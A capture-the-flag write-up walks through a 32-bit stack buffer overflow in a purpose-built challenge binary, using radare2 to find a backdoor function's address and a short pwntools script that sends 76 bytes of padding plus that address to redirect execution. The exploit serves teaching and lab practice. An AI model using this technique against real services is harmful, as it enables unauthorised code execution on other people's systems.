 [back to home](./index.html)

# MARTINA Challenge #1 - White Wolf

This challenge can be found when Martina gets some privacy and tries to get into her Penance rig.

## The Setup

> Incoming transmission...
>
> ==== WHITE WOLF ECHO ACTIVE ====
>
> TASK: ROOT PENANCE RIG
>
> SCANNING FOR VULNERABILITIES...
>
> VULNERABILITY FOUND: BOF
>
> BACKDOOR FUNCTION FOUND, OFFSET: 0x8049240

You will find a zip file containing a Dockerfile, a `.c` file and an ELF executable.

You will also be given access to a server running the executable over TCP.

## The Overflow

We will not go into what a buffer overflow is here. The best introduction you will get to buffer overflows is Aleph One's 1996 Phrack article [Smashing The Stack For Fun And Profit](https://phrack.org/issues/49/14).

In the program, the `char command[64]` buffer can be overflowed via the call to `scanf`.
What we are trying to do is jump to the `void backdoor()` function which will output the flag.
We need to find the address of `backdoor` and put it in the correct place, such that it will be used as the return address.

Let's use [Radare2](https://en.wikipedia.org/wiki/Radare2):

```bash
$ r2 penance-rig
[0x080490d0]> f~backdoor
0x08049240 168 sym.backdoor
```

This `0x08049240` address is the same one as is given in the intro text.

## The Padding

Now we need to figure out exactly where the return address sits on the stack, which should look something like this:

```
[64-byte command buffer] [other stuff] [saved EBP] [return address]
```

The `command` buffer is 64 bytes, but there's usually some extra padding between our buffer and the return address. On 32-bit systems, the saved EBP takes up 4 bytes right before the return address.

I tested different padding lengths until I found that 76 bytes gets us to overwrite the return address.

Let's put it all together in a python script, `exploit.py`, using [pwntools](https://docs.pwntools.com/en/stable/):

```python
from pwn import *

conn = remote('localhost', 5000) 

payload = b"A" * 76  # buffer overflow padding to reach return address
payload += p32(0x08049240)  # target address (backdoor function) - 32-bit

# Wait until we are prompted for a command
print(conn.recvuntil(b"Enter a command:"))

# Send the payload
conn.sendline(payload)

# Print what we receive
print(conn.recvall())
```

Now, to test it locally:

```bash
$ docker build -t whitewolf .
$ docker run -p 5000:5000 -it whitewolf
```

and in another terminal:

```bash
$ uv run --with pwntools exploit.py
```

Here is our test flag! Now replace the remote connection to the one provided for the challenge, and you can get the real one.

<fieldset class="hacker-note">
  <legend>Hacker Mindset</legend>
  <p>This kind of buffer overflow is less relevant today than it was 20 years ago. Modern systems have tons of protections: stack canaries, ASLR, non-executable stacks, etc. But these challenges are still worth doing because they teach you how memory actually works.</p>
</fieldset>